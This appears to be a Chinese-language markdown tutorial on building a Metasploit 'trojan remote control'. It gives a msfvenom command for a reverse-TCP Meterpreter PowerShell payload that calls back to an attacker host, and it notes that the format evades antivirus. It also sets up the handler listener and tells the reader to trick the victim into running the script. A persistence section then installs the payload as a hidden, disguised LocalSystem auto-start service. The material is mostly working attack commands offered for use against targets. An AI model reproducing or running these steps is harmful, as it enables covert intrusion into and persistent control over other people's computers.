



### 基础木马远控

1. **前提**：

	- 已安装 Metasploit 框架（Kali Linux 通常自带，Windows/macOS 需要手动安装）；
	- 攻击者主机（192.168.1.12）与目标主机处于同一网络，且 6666 端口(木马回连端口)未被占用 / 防火墙放行。

2. 打开终端进入目标文件夹输入生成木马指令回车生成木马；

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=6666 -f psh-reflection>girl.ps1
```

使用 Metasploit 框架的 `msfvenom` 工具，生成一个 **64 位 Windows 系统下的 Meterpreter 反向 TCP 后门**，并将其输出为 `psh-reflection`（PowerShell 反射注入）格式，最后生成名为 `girl.ps1` 的文件（本质是恶意 PowerShell 脚本）。指令详细解释如下：

- `msfvenom`
	Metasploit 框架中用于生成各种恶意载荷（Payload）、编码器、外壳代码的核心工具，是 `msfpayload` 和 `msfencode` 的整合版。

- `-p`
	`--payload` 的简写，指定要生成的恶意载荷（Payload）类型，这是核心参数之一。

- `windows/x64/meterpreter/reverse_tcp`
	具体的载荷类型，拆解如下：
	- `windows/x64`：目标系统为 64 位 Windows 操作系统；
	- `meterpreter`：Metasploit 的核心交互式后门，具备文件操作、提权、截屏、键盘记录等强大功能；
	- `reverse_tcp`：反向 TCP 连接模式（即 “反弹 shell”），由目标主机主动向攻击者的 IP 和端口发起连接，可绕过部分防火墙 / 端口限制。

- `LHOST=192.168.1.12`
	`LHOST`（Local Host）指定**攻击者的 IP 地址**（即接收反向连接的主机 IP），这里是 192.168.1.12，必须确保目标主机能访问到这个 IP。

- `LPORT=6666`
	`LPORT`（Local Port）指定**攻击者监听的端口**，这里是 6666，攻击者需要在该端口上通过 `msfconsole` 开启监听，才能接收目标主机的连接。

- `-f psh-reflection`
	`-f`（`--format`）指定输出格式，`psh-reflection` 是 PowerShell 反射注入格式：
	- 生成的载荷不会直接落地可执行文件（如.exe），而是通过 PowerShell 内存加载；
	- 隐蔽性更高，能绕过部分杀软的静态检测。

- `>girl.ps1`
	重定向输出符号，将 `msfvenom` 生成的恶意载荷内容写入名为 `girl.ps1` 的文件中：
	- 本质是文本文件（PowerShell 脚本）。



3. **后续监听步骤**：

生成载荷后，需要在攻击者主机上通过 `msfconsole` 开启监听，才能接收目标的反向连接：

```bash
# 启动 msfconsole
msfconsole
# 选择监听模块
use exploit/multi/handler
# 设置与载荷匹配的参数
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.12
set LPORT 6666
# 启动监听
run
```



>[!info] 提示
>配置时可以结合 `options` 对参数进行设置！

4. **目标主机触发方式**：

先将木马文件通过自己的方式发送到对方电脑，然后需诱骗目标主机执行 `girl.ps1` 文件（本质是 PowerShell 脚本），例如：

```powershell
# 目标主机执行（需PowerShell环境）
powershell -ExecutionPolicy Bypass -File girl.ps1
```



### 木马持久化（开机自启动）

>[!info] **植入服务病毒**  
>服务使您能够创建在它们自己的Windows会话中可长时间运行的可执行应用程序。这些服务可以在计算机启动时自动启动。

1. 当成功远控目标电脑后首先移动该木马到隐蔽的位置，移动文件指令如下：

```shell
mv girl.ps1 C:/Windows/girl.ps1
```

2. 在 Windows 系统中，通过 `sc create` 命令创建一个恶意的自启动系统服务，用于持久化控制。

```shell
sc create shell start= auto binPath= "cmd.exe /k powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Windows\girl.ps1" obj= Localsystem
```

**逐段拆解**

- **`sc create shell`**
    - `sc`：Windows 服务控制工具，用于管理系统服务。
    - `create`：创建一个新的服务。
    - `shell`：给这个新服务起的名字，这里叫 `shell`。

- **`start= auto`**
    - 设置服务的启动类型为 **自动（auto）**，即系统开机时就会自动运行这个服务。

- **`binPath= "cmd.exe /k powershell.exe -w hidden -ExecutionPolicy Bypass -NoExit -File C:\Windows\girl.ps1"`**
    - 这是最核心的部分，定义了服务启动时要执行的程序和参数：
    - `cmd.exe /k`：启动命令提示符，并执行后面的命令，执行后不关闭窗口。
    - `powershell.exe`：启动 PowerShell。
    - `-w hidden`：让 PowerShell 窗口**隐藏**运行，在后台执行，用户看不到。
    - `-ExecutionPolicy Bypass`：绕过 PowerShell 的执行策略，允许运行任意脚本，这是常见的绕过安全限制的手段。
    - `-NoExit`：执行完脚本后不退出 PowerShell 进程。
    - `-File C:\Windows\girl.ps1`：指定要执行的 PowerShell 脚本文件路径。攻击者将恶意脚本 `girl.ps1` 放在了系统目录 `C:\Windows\` 下。

- **`obj= Localsystem`**
    - 指定该服务以 **LocalSystem**（本地系统）账户运行，拥有最高的系统权限。

**整体意图与风险**    这条命令的目的是创建一个名为 `shell` 的系统服务，它会在开机时自动启动，以最高权限在后台执行一个位于 `C:\Windows\girl.ps1` 的 PowerShell 脚本。这是一种典型的**持久化攻击手段**，攻击者通过创建恶意服务，确保即使系统重启，其植入的恶意代码也能自动运行，从而持续控制目标机器。

3. 对该服务进行伪装

```shell
# sc description "服务名" "服务描述"
sc description "shell" "系统shell服务，禁止修改"
```

4. 设置服务的自动启动

```shell
# sc config "服务名" start= auto
sc config "shell" start= auto
```

5. 启动该服务

```shell
# net start "服务名"
net start "shell"
```

6. 服务隐藏技术

